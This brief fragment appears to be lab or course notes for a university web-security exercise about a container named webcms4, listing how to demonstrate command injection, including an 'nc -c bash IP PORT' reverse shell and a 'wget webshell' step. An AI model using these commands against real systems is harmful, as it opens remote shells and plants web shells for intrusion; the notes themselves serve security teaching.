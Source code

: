 Container unsw/cs6443/webcms4 listening on TCP 5000

start.sh binds to 0.0.0.0:8000

* Demonstrate command injection (submission check)
  * echo ...
  * nc -c bash IP PORT
  * wget webshell


